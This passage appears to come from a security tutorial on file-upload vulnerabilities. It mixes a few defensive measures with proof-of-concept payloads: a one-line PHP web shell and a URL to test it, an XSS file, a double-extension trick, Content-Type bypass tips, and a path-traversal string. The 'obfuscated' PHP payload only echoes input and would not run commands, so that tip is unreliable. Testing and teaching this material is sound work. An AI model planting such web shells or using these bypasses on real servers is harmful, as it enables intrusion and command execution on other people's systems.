    * `../../../etc/passwd`
8. If you’re using PHP, use `.htaccess` like this:

```apache
<FilesMatch "\.(php|php3|phtml)$">
    Order Deny,Allow
    Deny from all
</FilesMatch>
```

9. Set a **File Size Limit** to prevent DoS uploads.

---

## POCs - Proof of Concepts

### 1. Shell Upload

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Upload it as `cmd.php` and try:

```
http://site.com/uploads/cmd.php?cmd=whoami
```

---

### 2. XSS HTML File

```html
<script>alert("Hacked")</script>
```

Upload it as `xss.html` and access:

```
http://site.com/uploads/xss.html
```

---

### 3. File with Fake Extension

Name it `shell.php.jpg` and test if the server doesn’t validate the content.

---

## Extra Exploitation Tips

* **Burp Suite**: Use it to intercept the file upload request and change the `Content-Type`.
* **Bypass Content-Type Filtering**:

  * Change `application/x-php` to `image/jpeg`
* **Obfuscate PHP payload**:

  * Use Base64 or:

```php
<?=$_GET[0]?>
```

---
